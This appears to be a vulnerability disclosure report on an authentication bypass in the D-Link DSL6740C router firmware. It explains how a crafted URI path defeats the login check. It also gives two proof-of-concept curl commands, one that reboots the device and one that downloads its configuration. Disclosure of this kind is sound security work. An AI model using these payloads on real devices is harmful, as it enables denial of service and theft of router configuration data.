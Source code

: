 # dlink DSL6740C authentication bypass

## firmware information

vendor: dlink

product: DSL6740C

firmware version: DSL6740C.V6.TR069.20211230

## description

Dlink DSL6740C has authentication bypass vulnerability,  unprivileged attackers can send remote packet to reboot the device or set factory mode of the device, causing potential Denial Of Service. The authentication bypass happens in binary `/sbin/thttpd`.



## Detail

The authentication part of the device is in function `alpha_auth_check`（at address: `0x40284C`）The function returns -1 if the user has not passed the authentication check, otherwise. However, attackers can bypass it by inserting `/graphics` into the `uri` field, forcing the function to return 1, which means the remote user has passed the check.

![image-20241127202405521](report/image-20241127202405521.png)

Then, attacker can reach `do_xgi` since `alpha_auth_check` return 1, not -1

![image-20241127202528416](report/image-20241127202528416.png)

In `do_xgi`, there are privileged functions, which schedule the reboot of the device, or turn the device back to factory mode.

![image-20241127203053072](report/image-20241127203053072.png)

![image-20241127202752218](report/image-20241127202752218.png)

## POC

### reboot

The following payload will reboot the device, assume the IP address of the device is `192.168.1.1`

```shell
curl -X GET "192.168.1.1/graphic/reboot.xgi?a=1"
```

### information leakage

And the following payload leak the config information of the device

```shell
curl -X GET "192.168.1.1/graphic/config.xgi?a=1" --output ./test.bin
```

The result is as follows, some content has been encrypted by the device.

![image-20241127210412134](report/image-20241127210412134.png)